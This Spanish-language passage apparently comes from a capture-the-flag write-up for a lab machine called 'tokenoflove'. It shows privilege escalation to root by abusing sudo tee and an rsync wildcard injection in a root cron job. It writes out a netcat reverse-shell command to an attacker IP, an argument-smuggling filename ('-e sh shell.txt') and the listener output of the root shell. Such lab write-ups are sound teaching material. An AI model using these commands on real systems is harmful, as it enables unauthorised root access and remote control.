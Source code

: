 Que según gtfobins tenemos privilegios para escribir ficheros como el usuario `eros`. 

![alt text](/assets/token-of-love/image-11.png)

Si intentamos crear una clave SSH para el usuario `eros` no servirá de nada, ya que el servicio SSH solo esta accesible para el usuario root.

```bash
cupido@tokenoflove:~/tokenoflove$ cat /etc/ssh/sshd_config
# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/local/bin:/usr/bin:/bin:/usr/games

# The strategy use...
...
...

AllowUsers root
```

Por otro lado si observamos los procesos que se ejecutan como root con `pspy64` nos lo enviamos al servidor y lo ejecutamos, esperamos un minuto y encontramos el siguiente proceso.

![alt text](/assets/token-of-love/image-12.png)

Vemos que hay un proceso que mediante rsync copia todo el home del usuario `eros`, tal como esta hecho es vulnerable a rsync wildcards (https://www.exploit-db.com/papers/33930)

Básicamente lo que nos interesa es esto:

```
CMD: UID=0     PID=2888   | /bin/sh -c bash -c "cd /home/eros && rsync -i /root/.ssh/id_ed25519 -t *.txt tokenoflove:/root/copyhome-eros" > /dev/null 2>&1
CMD: UID=0     PID=2890   | rsync -i /root/.ssh/id_ed25519 -t nota2.txt nota3.txt nota.txt tokenoflove:/root/copyhome-eros 
```

Seguimos con el usuario `cupido`, podemos escribir con sudo ficheros como el usuario `eros`, y ademas tenemos una posible vulnerabilidad de rsync wildcard. Combinamos las dos cosas para crear los siguientes ficheros y acceder directamente a `root`.

```bash
cupido@tokenoflove:~$ echo "nc -c bash 192.168.1.116 443" | sudo -u eros /usr/bin/tee /home/eros/shell.txt
nc -c bash 192.168.1.116 443
cupido@tokenoflove:~$ echo "" | sudo -u eros /usr/bin/tee /home/eros/'-e sh shell.txt'
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.1.116] from (UNKNOWN) [192.168.1.179] 41722
id
uid=0(root) gid=0(root) grupos=0(root)
```

![alt text](/assets/token-of-love/image-13.png)

Esperamos un minuto máximo y obtenemos shell como root.
